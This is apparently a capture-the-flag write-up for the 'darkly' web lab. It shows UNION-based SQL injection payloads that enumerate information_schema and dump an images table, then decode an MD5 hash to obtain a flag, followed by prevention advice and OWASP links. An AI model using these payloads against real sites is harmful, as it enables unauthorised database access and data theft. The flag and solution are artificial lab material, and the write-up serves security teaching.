 # SQL INJECTION IMAGES

## Flag
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery
On the page http://{IP_ADDRESS}/index.php?page=searchimg

```diff
# To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
> 2 columns

# To get the images columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
> id, url, title, comment

# To see all images's data
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
> borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

# Finally "just use this md5 decode lowercase then sha256 to win this flag !"
md5_decrypt('1928e8083cf461a51303633093573c46')
> albatroz
lower('albatroz')
> albatroz
sh256('albatroz')
> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Use
> read sensitive data from the database, \
> modify database data (Insert/Update/Delete), \
> execute administration operations on the database (such as shutdown the DBMS), \
> recover the content of a given file present on the DBMS file system \
> and in some cases issue commands to the operating system

## Prevention
> use of prepared statements (with parameterized queries) \
> use of stored procedures \
> whitelist input validation \
> escaping all user supplied input

## Documentation
- [owasp - SQL injection](https://www.owasp.org/index.php/SQL_Injection)
- [owasp - prevent SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)